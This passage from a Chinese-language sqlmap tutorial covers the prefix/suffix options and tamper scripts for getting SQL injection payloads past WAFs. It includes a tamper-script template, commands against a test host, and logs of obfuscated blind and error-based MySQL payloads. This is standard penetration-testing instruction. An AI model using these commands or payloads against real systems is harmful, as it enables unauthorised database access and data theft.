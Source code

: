 这时你就需要`–prefix`和`–suffix`参数了：

```
python sqlmap.py -u "http://192.168.136.131/sqlmap/mysql/get_str_brackets.php?id=1" -p id --prefix
"’)" --suffix "AND (’abc’=’abc"
```

这样执行的 SQL 语句变成：

```
$query = "SELECT * FROM users WHERE id=(’1’) <PAYLOAD> AND (’abc’=’abc’)
LIMIT 0, 1";
```

**修改注入的数据**

参数：`–tamper`

`sqlmap`除了使用`CHAR()`函数来防止出现单引号之外没有对注入的数据修改，你可以使用`–tamper`参数对数据做修改来绕过 WAF 等设备。
下面是一个`tamper`脚本的格式：

```
# Needed imports
from lib.core.enums import PRIORITY
# Define which is the order of application of tamper scripts against
# the payload
__priority__ = PRIORITY.NORMAL
def tamper(payload):
'''
Description of your tamper script
'''
retVal = payload
# your code to tamper the original payload
# return the tampered payload
return retVal
```

可以查看 `tamper/` 目录下的有哪些可用的脚本

例如：

```
$ python sqlmap.py -u "http://192.168.136.131/sqlmap/mysql/get_int.php?id=1" --tamper tamper/between.py,tamper/randomcase.py,tamper/space2comment.py -v 3

[hh:mm:03] [DEBUG] cleaning up configuration parameters
[hh:mm:03] [INFO] loading tamper script 'between'
[hh:mm:03] [INFO] loading tamper script 'randomcase'
[hh:mm:03] [INFO] loading tamper script 'space2comment'
[...]
[hh:mm:04] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[hh:mm:04] [PAYLOAD] 1)/**/And/**/1369=7706/**/And/**/(4092=4092
[hh:mm:04] [PAYLOAD] 1)/**/AND/**/9267=9267/**/AND/**/(4057=4057
[hh:mm:04] [PAYLOAD] 1/**/AnD/**/950=7041
[...]
[hh:mm:04] [INFO] testing 'MySQL >= 5.0 AND error-based - WHERE or HAVING clause'
[hh:mm:04] [PAYLOAD] 1/**/anD/**/(SELeCt/**/9921/**/fROm(SELeCt/**/counT(*),CONCAT(cHar(
58,117,113,107,58),(SELeCt/**/(case/**/whEN/**/(9921=9921)/**/THeN/**/1/**/elsE/**/0/**/
ENd)),cHar(58,106,104,104,58),FLOOR(RanD(0)*2))x/**/fROm/**/information_schema.tables/**/
group/**/bY/**/x)a)
[hh:mm:04] [INFO] GET parameter 'id' is 'MySQL >= 5.0 AND error-based - WHERE or HAVING
clause' injectable
[...]
```
